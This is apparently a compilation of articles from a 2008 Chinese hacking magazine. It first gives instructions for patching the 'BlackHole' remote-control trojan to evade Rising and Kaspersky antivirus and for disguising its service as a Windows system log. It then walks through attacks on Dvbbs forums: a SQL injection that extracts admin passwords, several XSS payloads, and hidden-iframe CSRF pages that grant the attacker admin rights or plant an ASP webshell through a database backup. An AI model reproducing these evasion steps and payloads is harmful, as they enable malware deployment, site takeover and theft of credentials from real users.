| 服务端特征码地址 | 主控端 16 进制搜索地址 | 反汇编修改地址 | 特征码修改 |
|---|---|---|---|
| 0004BFFA | 00296BFE | 00696FE5 | Registry 大小写替换 |
| 000411D0 | 00296E3A | 00696EA0 | JE 改成 JNE |
| 0004139A | 002970B5 | 00697034 | RETN 3 和 NOP 互换 |
| 000424D7 | 002981DC | 006981DC | 002981D0 的字母 A 转为小写 |

图 6 卡巴 7 DLL 修改方法

| 服务端特征码地址 | 主控端 16 进制搜索地址 | 反汇编修改地址 | 特征码修改 |
|---|---|---|---|
| 0001C5DB | 00253AD7 | 00653AE7 | J8 改成 JMP |
| 0001DA49 | 00254EDB | 00654EDB | JLE 改成 JMP |
| 0001E5F4 | 00255A1B | 00655A1B | ADD 改成 SUB |

图 7 卡巴 EXE 修改方法

先修改 DLL，打开 c32asm 的 dll 界面按 Ctrl+G 跳转到 00041734，然后将 00041730 这一整行选中点击“右键→复制→HEX 格式化”，如图 3。


然后切换到 c32asm 打开的无壳黑洞主程序，按 Ctrl+F，在调出的对话框中选“16 进制”，鼠标点在搜索处后的框内，按 Ctrl+V 点击搜索，就会跳转到 dll 在主程序里的特征码位置，如图 4。然后再对比下 dll 的具体特征码位置，找到后点击“右键→汇编编辑模式”。


```text
0069743B    83C4 C4        ADD ESP,-3C
```

把 `ADD ESP,-3C` 改成 `SUB ESP,-3C`，DLL 文件就这样免疫过瑞星了。下面进行 exe 的修改，特征码定位查找方法和 DLL 一样，下面我只说特征码的修改方法，如图 5。

瑞星定的是在条件跳转上，我通过改为无条件跳转。修改完毕后，保存黑洞的无壳主程序，运行修改后的黑洞主程序，然后配置一个服务端。用瑞星检测文件，再把 dll 导出检测都没发现病毒，免杀成功。

运行后经检测功能全部正常，到此一个生成服务端过瑞星的黑洞就制造出来了。下面我们再来修改卡巴 7，卡巴 7 的特征码为 DLL：

```text
Codz1=H_0004BFFA_0004C01A_00000021_00041734
Codz2=H_000411D0_0004113D_00000021_00041734
Codz3=H_0004139A_000413BA_00000021_00041734
Codz4=H_000424D7_000424DB_00000005_00041734
```

卡巴 7 DLL 修改方法，如图 6。

卡巴 7 特征码：

```text
Codz1=H_0001C5DB_0001C5FB_00000021_0001D950
Codz2=H_0001DA29_0001DA49_00000021_0001D950
Codz3=H_0001E51F_0001E53F_00000021_0001D950
```

卡巴 EXE 修改方法，如图 7。

## 三、小结

随着大量的杀毒软件加入了主动防御功能，因此这项杀毒技术将在未来的一段时间，得到长足而有效的普及和发展。因此各种各样突破主动防御的方法也应运而生，但是总的来说就是想方设法避开主动防御的规则。所以，无论什么方法，只要能够有效使用，最终达到我们所需要的目的就可以了。

> 【本文介绍的相关工具和程序已收录在本期光盘中】

**编辑点评：**

记得前几期发过一篇过瑞星主动防御，主动防御可能是瑞星 2008 的一大亮点，所以对瑞星的主动防御处理也是很重要的，结合上一篇文章和这一篇，相信大家对瑞星的主动防御能够了解不少。作者又给大家带来了一次练习和实践，文章并不难懂，希望大家有所收获！

## 修改安装服务

依照上面的修改后，瑞星和卡巴将会对我们的黑洞服务端视若无物，但是这样的黑洞在安装后，有一个明显的服务名 BRC.Services，描述为 BlackHole Remote Control Services 的服务，稍微有点计算机常识的人都知道是中了黑洞，所以我们要对黑洞的服务名进行修改，加大它的迷惑性。同样用 c32asm 载入免杀后的主控端按 Ctrl+F，搜索类型为 ANSI 字符，内容为 BRC.Services，然后点击替换输入 Systemlog，后面再加 3 个空格，因为修改后的字节数必须和黑洞默认的服务名字节一样大小，如果你的服务名不够就用空格补充，如图 8。


数据填写完毕后，点击全部替换，默认的服务名就修改完毕。服务名修改完毕后，我们继续修改服务的显示名称。服务的显示名称字符数限制在 33 个字节内，我修改为 SYSTEM LOG ADMINISTRATOR，共 24 个字节，其余用空格填充；服务描述我修改为 Windows 系统日志管理程式，26 个字节，后面再加 5 个空格。由于黑洞默认服务名和描述都为 BlackHole Remote Control Services，整个主控端有 12 处 BlackHole Remote Control Services，挨个看会发现，其实总共只需要修改 6 处就可：3 处修改服务名，3 处修改服务描述。我按照 BlackHole Remote Control Services 出现的次数来区分修改的地方。需修改地方为，服务名修改第 1、5、9 处，服务描述修改第 2、6、10 处，其他的可以直接用空格填充。至此，黑洞的安装服务修改完毕（如果在 ANSI 模式下加空格不成功的话，可以用 16 进制的模式进行数据替换，16 进制模式下不够的字节用 00 填充）。

## 修改生成文件

接着修改黑洞的安装文件，黑洞默认安装文件为 brc_Server.dat、brc_Server.exe、brc_Server.dll。用“全部替换”功能把 brc_Server.dat 替换为 userdata.key，相差 2 个字节用空格填充；brc_Server.exe 修改为 userdata.exe，相差 2 个字节用空格填充；brc_Server.dll 修改为 userdata.dll，相差 2 个字节用空格填充。到这里，一个生成免杀、过瑞星和卡巴的黑洞就此诞生了。


> 【本文介绍的相关工具和程序已收录在本地光盘中】

**编辑点评：**

本文介绍的思路还是挺不错的，自从灰鸽子被围剿后，pcshare 的黑手也基本被各大杀软追杀，现在想要弄个好的“马马”也不是那么容易啊，所以这个追杀没那么大的是非常重要的，但自己掌握好一门免杀技术却更重要。即使现在灰鸽子被围剿，但我还是很相信，依然有很多朋友对它进行免杀处理！如果你觉得热门远控太容易被杀的话，用用黑洞或许还是挺不错的哦，只是黑洞却比其他远控在体积上大很多！

## 修改黑手专版

黑洞的版本信息是 1.96 演示版本，老陈又一直不出正式版和出售个人专版，那我们就自己 DIY 一个自己的专版吧。用 c32asm 载入免杀完毕后的主控端，用替换功能把“演示版”全部替换为“专用版”。先搜索 V1.96，替换为“黑手”。有 2 处会被替换，然后再搜索 1.96 替换为“黑手”。全部替换完毕后，保存为新文件。到此一个生成免杀的黑手专版就诞生了，大家赶快按照我的思路，去修改个超级免杀的黑洞吧，如图 9。


## 动网 8.1 最新漏洞分析和利用

■ 南京自动化研究院 冯谷

从本文可以学到：

- 动网 8.1 最新漏洞分析和利用
- NBSI 的使用技巧

前几天在网上看资料，发现动网 8.1 又爆出新漏洞了，对 access 和 mssql 两个版本都有影响，漏洞发现者是 Tr4c3，但是感觉有点不太信，于是就到网上把最新的动网 8.1 程序下载到本地进行测试，发现真的存在漏洞，而且漏洞的危害很大，可以直接猜解出管理员的口令。下面讲讲我在本地测试的过程。

### 1．漏洞原理

首先，我们来看看出现漏洞的文件 UserPay.asp，文件中的 out_trade_no 变量没过滤，导致出现了注入漏洞，Dvbbs 8.0.0.0 到 Sp1 以上版本及更新过支付宝接口的论坛全部都存在这个漏洞，我们一起来看看这个文件的关键代码，如图 1。


大家注意，当 `action` 变量为 `alipay_return` 和 `action` 变量为 `alipay_return` 时，都会调用 `AliPay.Return()` 这个过程。在 `AliPay.Return()` 过程的代码中，当 `Dvbbs.Forum_ChanSetting(5)` 不等于 0 的时候，就会调用 `AliPay.Return_Old()` 过程。我们打开数据库看下，数据库里 `Forum_ChanSetting(5)` 的默认值为 0，当 `Forum_ChanSetting(5)` 的值为 0 时，就会执行下面那一段代码，`out_trade_no` 在没有任何处理的情况下，就直接赋给了 `order_no` 变量，在 SQL 查询时也没有过滤，因此产生了注入漏洞，这是个很低级的错误。

直接通过 request 获取值，在这种情况下，我们可以使用 get、post、cookie 三种方式进行注入测试，而且是 post 方式的注入，是不会在服务器日志上留痕迹的。但是，在 Dvbbs 8.0 中 out_trade_no 变量是经过了 `Dvbbs.CheckStr` 函数的过滤，所以 8.0 版本是不存在这个漏洞的。不知道为什么到了 8.1 的版本却出现了这么低级的问题。知道了漏洞原理，下面，我们一起在本地环境下测试一下这个漏洞。

### 2．漏洞利用

首先，在本地把 dvbbs 8.1 版本的论坛配置好，可以正常访问。我们来注册一个论坛用户，利用注册的用户登录论坛，在“控制面板”那里选择“购买论坛点券”，进入后我们点击一下“网上支付”这个按钮，会跳出一个支付失败的页面，然后我们打开“所有记录”就可以看到我们刚才支付的记录了，如图 2。


然后，我们记录下这个订单号，在 IE 地址栏里输入：

`http://127.0.0.1/UserPay.asp?action=alipay_return&out_trade_no=2008011415430976393b64cea5f`

（这个就是刚才的订单号），在这个地址后面加上一个单引号，返回一个错误页面，如图 3。

看到了吧，返回的信息说明没有过滤单引号，这个注入漏洞是字符型的，我们可以继续提交，进行证实。

## 2008.02→【春节专题——超级洞洞波】

`http://127.0.0.1/UserPay.asp?action=alipay_return&out_trade_no=2008011415430976393b64cea5f' and '1'='1`，返回错误页面；

接着：

`http://127.0.0.1/UserPay.asp?action=alipay_return&out_trade_no=2008011415430976393b64cea5f' and '1'='2`

返回显示 N 的页面。两个返回页面不一样，典型的字符型注入漏洞，如图 4、图 5。


手工猜解太费时了，还是用工具进行注入测试吧。拿出 NBSI 工具，输入

`http://127.0.0.1/UserPay.asp?action=alipay_return&out_trade_no=2008011415430976393b64cea5f`

到地址栏里，点击“检测”，返回未检测到注入漏洞，如图 6。


由于这种注入比较特别，页面关闭了错误信息，因此要用到特征字符。特征字符是指 `and '1'='1` 和 `and '1'='2` 两个页面出现的不同信息的关键字，我这里用的是“非法的订单参数”，大家也可以是别的关键字。写入特征字符以后，马上出现成功注入的信息，如图 7。


由于我们知道动网论坛的表结构，它的每个表都在前面有个表名，这里我们直接在“手工输入表名”里输入 dv_admin 和 dv_user 两张表。列名也是一样，在 dv_user 表的列名里输入 userid、username、userpassword、usergroup，在 dv_admin 表的列名里输入 id、username、password。这样，有针对性地猜解表内容就快多了。

这里和大家讲一下网上注入动网论坛的小技巧。由于我是本地测试，所以表里的内容就两条，猜解很快；但是网上的动网论坛，数据库里的记录都是上千、上万条，如果一条一条猜，那还不累死啊！其实有方法可以快速定位，让我们找到管理员的用户名和口令。NBSI 这个工具很强大，在“猜解记录范围”那里默认是 `1=1`，这样设置就会把表里面所有的内容猜解出来。在 dv_user 表中是通过 usergroup 的值来判断某个用户是否是管理员，这样的话，我们把“猜解记录范围”的值给定 `usergroup=1`。工具就会猜解 `usergroup='1'` 的表内容，也就只会显示管理员的记录。


论坛管理员可不是第一条记录呢？那我们怎么办？这里我们只要修改一下“猜解记录的范围”就行了，把值改成“usergroup='1'”，再看看效果，如图 9。

看见了没有，当我把 usergroup 的值改成了管理员的值后，工具就只会猜解出管理员的记录，其它的用户记录不会猜解。在知道程序表结构的时候，大家可以修改一下猜解的范围，我个人认为效果相当不错，大家可以试试看。


下面，给出本地测试最后猜解出来的管理员的记录，如图 10。


后台拿 webshell 的方法暂时还没有想到，大家自己想想吧，8.1 版本后台设置得蛮严的，数据库路径也不让改。但是，我想过不了多久，后台拿 webshell 的方法就应该会有的。下面给出一张官方后台的图片，如图 11，不过，现在官方已经升级了。


### 3．总结

文章没什么技术含量，主要是由于程序员大意，变量没放入过滤函数就直接传入 SQL 语句了，真是无语了，动网竟然会出现这样低级的失误。

关于 NBSI 这个工具的使用还有很多技巧，在以后的文章中，我会慢慢讲给大家的。文章中有什么不懂的，可以到“黑手”的论坛给我留言，我的 ID 是 rabbitsafe，或者加我 QQ：3818718。（文章中所涉及的相关工具 NBSI 已经收录在本期光盘中。）

> 编辑点评：动网在新年来临的时候，给我们带来了惊喜，想想有多少人在使用动网，就可以想像这些漏洞将引起什么样的风波了。

## dvbbs8.X 跨站漏洞审视

- 从本文可以学到：
- dvbbs 8.X 系列跨站漏洞分析
- 漏洞利用实例

dvbbs 8.0 出来也有一段时间了，在这几个月里，爆出了不少漏洞，其中，跨站占绝大部分，本文也会说说如何利用跨站来进行攻击。现在我们就一起来看看 dvbbs 8.0 的一系列漏洞吧！

## 一、个人头像跨站漏洞

dvbbs 8.0 刚出来时第一个漏洞就是樱花浪子发现的头像跨站漏洞，我们来看看漏洞代码：

```vb
省略。
Face = Request.Form("myface")
省略。
End If
Else
Dvbbs.Forum_userface = Split(Dvbbs.Forum_userface,"||")
If Request.Form("face") <> "" Then
    Face = Dvbbs.Forum_userface(0) & Dvbbs.Forum_userface(1)
Else
    Face = Request.Form("face")
End If
End If
'face=Dv_FilterJS(Replace(face,"'",""))
face = Replace(face,"'","")
'face=Replace(face,"\","")
face = Replace(face,"&","")
face = Replace(face,"#","")
face = Replace(face,"%","")
face = Replace(face,"/","")
face = Left(face,200)
省略。
Rs("UserFace") = face
省略。
```

大家细心看下，过程是这样的：一开始将 myface 赋值给变量 face，使用“||”做分割来取值→判断 face 是否为空→过滤掉一些危险字符并只取左边 200 个字符→进库。本来过滤的代码还算齐全，但是它少过滤了双引号`"`，所以，我们可以构造这样的语句`"><iframe src=http://www.nohack.cn></iframe>`。

OK，我们来测试下，先注册一个帐号，在“编辑用户资料”里选择“基本资料修改”，然后在自定义头像地址处输入`"><iframe src=http://www.nohack.cn></iframe>`，我们来查看一下个人资料，iframe 代码成功执行了，如图 1 所示。


## 二、圈子列表跨站漏洞

第二个跨站漏洞是我自己无聊时找的，漏洞主要原因在于 IndivGroup_List.asp 文件，我们来看下它的漏洞代码：

```vb
省略。
Sub saveappgroup()
Dim UserID,UserName,GroupName,GroupInfo,GroupSetting,viewflag
省略。
GroupName = Dvbbs.CheckStr(Request("GroupName"))
GroupInfo = Dvbbs.CheckStr(Request("GroupInfo"))
省略。
If GroupName = "" Then
    errflag = errflag & "!S:圈子名称没有填写"
End If
省略。
If errflag<>"" Then
    errflag = split(errflag,"$")
    Response.write "parent.information('错误："
    For i=1 To UBound(errflag)
        Response.write errflag(i) & "\n"
    Next
    Response.write "')"
Else
    Set Rs = Dv_IndivGroup_MainClass.Execute("Select GroupName, AppUserName From Dv_GroupName Where AppUserName='" & UserName & "' Or GroupName='" & GroupName & "'")
    If Not Rs.Eof Then
        If UserName = Rs(1) Then
            Response.write "parent.information('你已经申请过圈子，一个用户只能申请一个圈子。')"
        Else
            Response.write "parent.information('圈子名称已经有人申请，请重新填写')"
        End If
    Else
        Rs.Close
        If Dvbbs.forum_setting(102)=0 Then
            Dv_IndivGroup_MainClass.Execute("insert into Dv_GroupName(GroupName,GroupInfo,AppUserID,AppUserName,UserNum,Stats,LimitUser,AppDate,PassDate,Locked,viewflag) values('" & GroupName & "','" & GroupInfo & "','" & UserID & "','" & UserName & "',1,1,'" & Dvbbs.GroupSetting(74) & "','" & SqlNowString & "','" & SqlNowString & "',0,'" & GroupSetting & "','" & viewflag & "')")
        End If
    End If
End If
省略。
```

在 saveappgroup 过程中，GroupName 和 GroupInfo 两个变量经过 Dvbbs.CheckStr 过滤，我们来看下 CheckStr 函数是怎么写的：

```vb
省略。
If IsNull(Str) Then
    CheckStr = ""
    Exit Function
End If
Str = Replace(Str,Chr(0),"")
CheckStr = Replace(Str,"'","''")
省略。
```

函数只过滤了“null”、“Chr(0)”和`'`，那么，我们只要绕过这几个字符来进行跨站就可以了，我们可以构造这样的测试代码`<script>alert('SST')</script>`。

再来看下 admin/indivgroup.asp 文件的代码：

```html
省略。
<tr>
<td width="20%" class=td1><b>圈子名称</b></td>
<td width="80%" class=td1>
<input type="text" name="Groupname" size="35" value="<%=Groupname%>">
</td>
</tr>
省略。
<td width="20%" class=td><b>圈子说明</b></td>
<td width="80%" class=td>
<textarea rows="4" cols="35" name="GroupInfo"><%=Groupinfo%></textarea>
省略。
```

呵呵，GroupName 和 GroupInfo 在出库时也没做过滤哦！再看看 indivgroup_index.asp 的代码：

```vb
Sub ShowBoardList()
Dim i, ShowMod, BoardID, LastPost, LastPostDate
Set XMLDom = Server.CreateObject("msxml2.FreeThreadedDOMDocument") & MsxmlVersion
XMLDom.appendChild(XMLDom.createElement("IndivGroup"))
XMLDom.documentElement.appendChild(Dv_IndivGroup_MainClass.BoardXMLDom.documentElement.cloneNode(True))
XMLDom.documentElement.attributes.setNamedItem(XMLDom.createNode(2,"groupid","")):text = Dv_IndivGroup_MainClass.ID
XMLDom.documentElement.attributes.setNamedItem(XMLDom.createNode(2,"groupname","")):text = Dv_IndivGroup_MainClass.Name
XMLDom.documentElement.attributes.setNamedItem(XMLDom.createNode(2,"powerflag","")):text = Dv_IndivGroup_MainClass.PowerFlag
省略。
```

呵呵，groupname 没有做过滤就出库了。

好了，我们来测试下，在本地搭建一个环境，注册一个用户，然后在“个性圈子”里打开“申请圈子”，在“圈子名称”和“圈子说明”里同时输入：

`"><script>alert("落叶纷飞")</script>`

然后打开圈子列表，弹出了两个框，我们进入后台的圈子管理里面看看，呵呵，同样也弹出了两个框，如图 2、图 3 所示。


## 三、圈子管理跨站漏洞

接着是第三个跨站漏洞，这个漏洞也是我在读代码的时候发现的，漏洞文件是 IndivGroup_Manage.asp，我们看看它的漏洞代码：

```vb
boardinfo = Dvbbs.CheckStr(NewlineEncode(Request("boardinfo")))
boardrules = Dvbbs.CheckStr(NewlineEncode(Request("boardrules")))
Dv_IndivGroup_MainClass.Execute("insert into Dv_Group_Board(boardname,boardinfo,indeximg,rootid,joindate,rules,boardstats) values('" & boardname & "','" & boardinfo & "','" & indeximg & "'," & Dv_IndivGroup_MainClass.ID & "," & now() & ",'" & boardrules & "'," & boardstats & ")")
Response.Write "parent.document.getElementById('boardForm').innerHTML='<b>栏目增加成功!</b><a href=""javascript:history.go(-1);"">返回</a>'"
省略。
```

仔细看看，boardinfo 和 boardrules 这两个变量都分别用 Dvbbs.CheckStr 和 NewlineEncode 函数过滤了再进库，我们来看看 NewlineEncode 函数的代码：

```vb
Function NewlineEncode(Str)
If Not IsNull(Str) Then
  Str = Replace(Str, CHR(13), "")
  Str = Replace(Str, CHR(10), "<BR />")
  NewlineEncode = Str
End If
省略。
```

NewlineEncode 函数只过滤了 CHR(13) 和 CHR(10)，很容易就能绕过。IndivGroup_index.asp 文件在输出这两个值的时候也没有做过滤，现在我们来测试下。

打开圈子管理里面的“添加栏目”，然后在“栏目说明”和“栏目规则”里分别输入跨站代码`<script>alert(1112)</script>`、`<script>alert(111)</script>`，其他的随便输入，然后点“保存”。

OK，我们打开圈子看看，呵呵，跨站代码执行了，如图 4、图 5 所示。


## 四、通杀 8.0 和以前版本 UBB 标签跨站漏洞

现在来介绍第四、第五和第六个跨站漏洞，这三个跨站漏洞是我有次无聊，乱点了几个 Dvbbs 的文件来看，就弄出了这几个 XSS 漏洞，其实也挺有运气的，呵呵。

漏洞主要原因是 Dvbbs 没有对`[flash]`、`[RM]`和`[MP]`等 UBB 标签做过滤，其实`[img]`等都存在，只不过要绕比较大的弯子，本来绕成功了一次，但是居然死机了，我晕~所以也就懒得再去绕了。由于涉及到 3 个 UBB 标签问题，所以这里只以`[flash]`标签为例做分析。

漏洞主要原因是因为 savepost.asp 和 ubblist.asp 文件没有对其做好过滤，因为动网对 UBB 标签写的代码异常零散，所以我就不给出漏洞代码了，有兴趣的朋友可以自己去读下。

现在我来测试一下，首先注册一个用户，然后随便选择一个版块，选择发帖，标题随便填，在内容里填写如下 UBB 代码：

```text
[flash]http://" onmouseover=java.alert("leaves") aa="s[/flash]
```

注意：有些朋友可能会问 aa 参数是什么，这里我要说明一下，aa 并不是参数，只是我伪造的一个参数，目的为了加大跨站面积和闭合后面的`"`。


点击发表，然后我们进入刚发表的帖子看看，当鼠标一碰到我们的代码的时候，跨站代码就执行了，如图 6 所示。

但是，仅仅一句代码很难让别人碰到，有什么办法能让跨站点的面积增大呢？办法当然是有的，我们在内容里写如下 UBB 代码：

```text
http://" onmouseover=java.alert("leaves") aa="ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss
ssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss
```

现在面积已经比较大了，但还是不够，我们再来更大的，代码如下：

```text
[flash]
http://" onmouseover="java.alert('华夏安')" aa='s
1
1
1
1
1
1
1
1
[/flash]
```


发表后如图 7 所示，现在的面积才算真正的“大”。

但是，在回复帖子跨站的时候，我们就不能这样写了，回复帖子我们应该写成这样的代码：

```text
[flash]http://" onmouseover="java.alert('华夏安')" aa='s
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[/flash]
```

效果如图 8 所示。

不知道怎么的，在 dvbbs 8.1.1 里，flash 标签被禁用了，我怎么找也找不到打开这个标签的地方，但代码里漏洞还存在，真晕~~


## 五、dvbbs 跨站漏洞的利用

好了，下面我来讲下动网跨站的利用！这里为了让大家对 XSS 漏洞的利用有进一步的了解，我就用 [flash] 标签来讲解利用方法（其他的旁站点能使用“<>”，可以照搬去套），由于去年 12 期报花浪子已经介绍了 XSS 调用 js 文件来控制跨站语句的方法，同时也为了演示的效果，这里我就用 window.location 来做介绍。我们使用如下 UBB 代码：

```text
[flash]
http://" onmouseover="java.window.location.href='http://www.cnsst.org/' aa='s
1
1
1
1
1
1
[/flash]
```

只要鼠标一移动到我们的代码上，网页就会跳转到 www.cnsst.org。OK，这里大家可能会想到我要做什么了，请将以下代码保存为 1.htm：

```html
<form action="http://127.0.0.1/dvbbs/Admin/admin.asp?action=savenew" method="post">
<input type="text" name="username2">
<input type="password" name="password2">
<input type="text" name="username1" value="asdsad"> // value 的值为你的用户名
<input type="text" name="isdisp" value="0"> // 1 为显示，0 为不显示
<input type="submit" class="button" name="Submit" value="添 加">
<body onload="javascript:document.forms[0].submit()">
```

以下代码保存为 2.htm：

```html
<form action="http://127.0.0.1/dvbbs/admin/admin.asp?action=update" method="post" name="adminflag">
<input type="text" name="flag" value="18"> 管理员添加管理
<input type="text" name="flag" value="33"> 备份数据库
<input type="text" name="flag" value="35"> 系统空间占用
<input type="text" name="flag" value="36"> 上传头像管理
<input type="text" name="flag" value="37"> 上传文件管理
管理员id：<input type="text" name="id" value="3"> // 注意，这里的 value 值为你管理员的 id，你可以先查看一下论坛有多少个管理员，例如有 4 个，那你应该就是第 3 个了
<input type="submit" class="button" name="Submit" value="更新">
```

以下代码保存为 3.htm：

```html
<iframe src=1.htm width=0 height=0></iframe>
<iframe src=2.htm width=0 height=0></iframe>
<meta http-equiv="Refresh" content="2; url=3.htm">
```

分别把这 3 个文件都传上你的空间，然后我们发表新帖，在帖子内容里写如下代码：

```text
[flash]
http://" onmouseover="java.window.location.href='http://www.cnsst.org/3.htm' aa='s
1
1
1
1
1
1
[/flash]
```

OK，只要管理员的鼠标滑过我们发表的帖子，那么，很有可能我们的用户已经成为管理员了。我们再来说下另一个利用方法，请把如下代码保存为 5.htm：

```html
<form method="post" action="http://127.0.0.1/dvbbs/Admin/data.asp?action=BackupData&act=Backup">
<input type=text name=Dbpath value="./上传木马的位置">
<!-- 上传一个 js，数据备份成了的“ajs木马”，上传后把地址记下来，替换 value -->
<input type=text name=bkfolder value="./33.asp">
<input type=text name=DbName value="hoback.mdb">
<input type="submit" class="button" value="确定">
<body onload="javascript:document.forms[0].submit()">
```

发表文章的内容为如下 UBB 代码：

```text
[flash]http://" onmouseover="java.window.location.href='http://www.cnsst.org/4.htm' aa='s[/flash]
```

只要管理员的鼠标滑过我们的帖子，那么，我们就可以连接我们的木马了。

## 六、dvbbs 8.X--XSS 通杀 0day（旧版本没有测试过）会出一系列的补丁，现在其他跨站漏洞都补丁了，唯独这个没补，这可能是他们的一个疏漏吧！

漏洞主要原因在于 savepost.asp 文件，我们来看看其漏洞代码：

```asp
省略
vote=Dvbbs.Checkstr(trim(Replace(request.Form["vote"],"'","")))
省略
DvBbs.execute("insert into dv_vote (vote,votenum,votetype,timeout,UArticle,Uywealth,Ucp,Upower,LockVote) values ('"&vote&"','"&votenum&"','"&votetype&"','"&timeout&"','"&UArticle&"','"&UWealth&"','"&UFEP&"','"&UCP&"','"&UPower&"','"&LockVote&"')")
省略
```

Checkstr 函数我们刚才已经看过了，它只过滤了“|”、“%00”和“'”，但在测试的过程中，居然过滤了双引号`"`，单引号“'”并没有过滤。

我们来利用一下，随便进入一个版块，然后发投票贴，在投票选项里输入“`<script>alert('落叶纷飞')</script>`”，点击添加，当管理员一进入，跨站代码就执行了，如图 9、图 10。目前官方还没有修补此漏洞。

## 七、最后说的话

dvbbs 经过了 7 年的风风雨雨，应该算是一套安全性非常不错的程序了，现在看到网上很多人都说“动网”是“洞网”，我觉得这是错的，为什么动网那么多漏洞呢？是因为动网已经成为了国内 ASP 论坛的首选，就如 PHP 论坛的 Discuz! 和 phpwind 一样，很多高手挑战的就是这种顶级的程序。大家想想，那么多人去挖一个程序的漏洞，漏洞就肯定比较多了。但是，你从网上随便下一个程序下来，看一下它的代码，你会发现，什么才能称为“洞网”！

好了，本文就到这里，如有什么疏漏之处还请多多指出。大家有什么问题可以去 www.cnsst.org 或者到 Nohack 的论坛找我，我的论坛 ID 是“asdasdaa”（对不起，前面注册的 ID 忘记了密码）。

> （文中所涉及的相关代码已经收录在本期光盘中。）

**编辑点评：**

过年啦，自然少不了大餐了，本文总结了 dvbbs 8.X 跨站漏洞，有分析，有利用，希望大家喜欢，高高兴兴地过大年。

# 动网 8.1.1 版后台获取 webshell

从本文可以学到：

- 动网 8.1.1 版后台获取 webshell 的方法
- 分析漏洞的思路

动网论坛可以说算是国内 ASP 论坛界的老大了，在原来的很多版本中，都出现了不同的漏洞，而且获取 webshell 也是挺容易的，但是到了 8.1.1 版本的时候，获取 webshell 变得异常地艰难。前一段时间爆出了可以在 boke 中添加上传 PHP 类型文件的 bug，这个在服务器可以解析 PHP 的条件下是可行的！

8.0 版本时，数据库的路径是可以修改的，那个时候可以通过上传修改成 txt 格式的数据库文件和木马文件进行捆绑！但是到了 8.1.1 版本以后，数据库是不允许修改的。某天下午在红狼的论坛里看到有朋友在研究后台获取 webshell 的方法，于是我也研究了一下，也就得出了今天这个方法！

## 一、得到 webshell

首先，怎么获取后台管理员账号和密码我们就不提了，直接进入后台，在备份数据库和恢复数据库中，我们看到数据库的路径已经修改不了了，如图 1、图 2。

我们来看看源码，在 admin/data.asp 中已经插入 `<!--#include file="../conn.asp"-->`，而且数据库路径设置是：`Dbpath="../"+db`。已经是直接从 conn.asp 的配置文件中获取了用户所设置的路径，所以我们改这个是不可能的了，那么我们就想起了 win2003 下，IIS6 的缺陷，也就是 asp 的文件夹会按照 ASP 文件方式被执行，所以我们将目录修改成 `../Databackup.asp`，如图 3。

但是返回的结果却是保存数据库名不合法，必须是有效的 MDB 文件和文件夹目录！我们还是看源码，还是在 admin/data.asp 中，行 621 开始的 updata 函数：

```asp
sub updata()
    On error resume next
    Dim FileConnStr,Fileconn
    Dim Temppackpath
    Dbpath="../"&db
    Dbpath=Replace(request.Form("Dbpath"),chr(0),"")
    Dbpath=Server.mappath(Dbpath)
    bkfolder=Replace(request.Form("bkfolder"),chr(0),"")
    bkdbname=Replace(request.Form("bkdbname"),chr(0),"")
    Temppackpath= bkfolder & "/" & bkdbname
    Rem Add By Dv 即刻 Net 2007-10-15
    If InStr(Lcase(Temppackpath),".asp")>0 Or InStr(Lcase(Temppackpath),".php")>0 Then
        response.write "保存数据库名不合法，必须是有效的MDB文件和文件夹目录！"
        Response End
        Exit Sub
    End If
```

```asp
If ("<%"<>mdb) Then
    response.write "保存数据库名不合法，必须是有效的 MDB 文件！"
    Response.End
    Exit Sub
End If
```

我们看到在判断备份目录和备份文件名称时，对字符串中的 **ASP、ASPX、PHP** 都做了限制，不过我们知道，**ASP 和 ASA** 用的都是一个解析器，在理论上创建 **.asa** 文件夹也应该是可以被执行的。

好，按照这个思路我们试着备份一下，将目录修改成 `../Databackup.asa`，并选备份，返回的是备份数据库成功，您备份的数据库路径为 `../Databackup.asa/data.back200712311207_65542.mdb`，如图 4。备份通过，所以此时我们的任务就是寻找论坛可以利用的地方，将我们的一句话木马插入到数据库中，然后备份。

不过还有一个前提就是 IIS 版本要求为 IIS6。由于我的机器是 XP 系统，安装的是 IIS5.1，我就在网上找了一个 2003 的。首先我们确定 IIS 版本，在服务器信息探测中显示如图 5。

版本确定以后，我们就要寻找可以插入木马的地方吧。但是说到插马，我们的问题又出现了，因为在数据库的 `DV_notdownload` 段中的 `notdown` 内容为 `3C25206C6F6F70203C25`，也就是 ASP 语句中的 `<% loop <%`，我们要想让 ASP 木马能够正常执行，首先一个前提就是闭合 `<% loop <%`。关于这个技术，我们参照“邪恶八进制”中“平安空间”的文章《如何突破数据库 Loop 防下载实例》。

经过多次的测试，终于得到了想要的效果，大家看我演示就好了。这里给大家找好了一个地方，就是个性圈子管理中（其实其他地方也是可以的，我也是慢慢试出来的），这里我用这个地方演示，然后按照如图 6 的方式添加一个圈子，在圈子名称处，写入：`十撇敲会整把煜贼贼V丨H镖十站`，如图 6。

然后进入模板管理处中的“添加 / 编辑自定义标签”，我们对 `login` 标签进行修改，如图 7。

在模板—主体标记部分前面添加 `I` 码，这样我们不仅将 `<% loop <%` 注释掉了，同时也将我们一句话木马写入了注释的前面。接下来就是备份数据库，生成以 `.asa` 为文件夹的数据库路径，这里就不截图了，我们直接运行这个文件，如图 8 所示。

没有出现 `%>` 不闭合的现象，同时也证明了我们的一句话木马正确地插入了！接下来就是一句话木马连接了，如图 9，接着就得到 webshell 了，如图 10。

继续过滤掉其他由于 IIS6 缺陷所造成的问题即可！好的，文章就写到这里，如果大家有什么疑问可以和我联系，我的 QQ：15872896。

> 编辑点评：本文目标很明确，就是求得动网的 webshell，所以围绕这个做了很多尝试，这个思路是好的；现在很多找漏洞的朋友有时会陷于眉毛一把抓、没有目的，所以觉得分析起来比较茫然。大家可以学习作者这种方法，确定一个点，然后围绕这个点来分析，思路会清晰得多。

我想这篇文章到这里已经算是结束了，主要是利用了 IIS6 的缺陷和动网在生成目录上过滤得不严格。

## 二、漏洞修复

```asp
If InStr(Lcase(Tempbackpath), "asp")>0 Or InStr(Lcase(Tempbackpath), "aspx")>0 Or InStr(Lcase(Tempbackpath), "php")>0 Then
```

# 动网 8.1 版后台拿 webshell 又一法

